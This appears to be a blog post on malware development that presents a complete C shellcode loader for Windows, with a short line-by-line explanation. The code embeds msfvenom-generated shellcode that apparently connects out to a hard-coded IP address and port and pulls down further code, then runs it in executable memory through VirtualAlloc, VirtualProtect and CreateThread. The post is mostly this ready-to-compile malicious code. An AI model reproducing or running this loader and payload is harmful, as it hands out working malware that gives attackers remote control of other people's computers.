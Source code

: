 ```yaml
---
layout: post
title:  OST-Malware-dev
date: 02-21-2025 12:00:00 +0000
image: 
    path: /assets/covers/malware.jpg
categories: [Malware-dev]
tags: [Win-Internals, DLL, TLS, C, Malware]
---
```


# Malware development with C Executing Shellcode on Windows

In this post, we’ll examine a C program that loads and executes shellcode using the Windows API. The shellcode, generated with msfvenom, is injected into an allocated memory region and then run in a separate thread. Let’s dive into the code and understand each step.

## The Complete Code

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// Shellcode generated by msfvenom
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52\x30\x89"
"\xe5\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28"
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x8b"
"\x48\x18\x50\x01\xd3\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x64\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

unsigned int payload_len = sizeof(buf); // Size of the shellcode

int main(void) {
    void* exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    printf("[#] Press <Enter> to allocate memory...");
    getchar();

    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (exec_mem == NULL) {
        printf("Error allocating memory.\n");
        return -1;
    }

    printf("%-20s : 0x%-016p\n", "Shellcode Address", (void*)buf);
    printf("%-20s : 0x%-016p\n", "Executable Memory Address", (void*)exec_mem);

    printf("[#] Press <Enter> to move the payload to the designated memory...");
    getchar();
    RtlMoveMemory(exec_mem, buf, payload_len);

    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    if (rv == 0) {
        printf("Error changing memory permissions.\n");
        return -1;
    }

    printf("\nExecuting payload...\n");
    getchar();

    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
    if (th == NULL) {
        printf("Error creating thread.\n");
        return -1;
    }

    WaitForSingleObject(th, INFINITE);
    return 0;
}
```

## Explanation: Line by Line

### 1. Header Files and Shellcode

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
```

- **windows.h**: Provides access to Windows API functions.
- **stdio.h**: Enables standard I/O functions like `printf` and `getchar`.
- **stdlib.h**: Contains standard utilities including memory management.

### 2. Shellcode Declaration

```c
unsigned char buf[] = "...";
unsigned int payload_len = sizeof(buf);
```

- **buf[]**: Stores shellcode bytes.
- **payload_len**: Defines shellcode size for memory allocation.

### 3. Memory Allocation

```c
exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

- Allocates memory dynamically for shellcode execution.

### 4. Memory Execution Permission

```c
rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
```

- Changes memory protection to executable before running the shellcode.

### 5. Shellcode Execution

```c
th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
```

- Creates a new thread to execute shellcode.

## Final Thoughts

This method of injecting shellcode using Windows API is commonly seen in penetration testing and malware research. Be cautious while testing and always use a controlled environment.
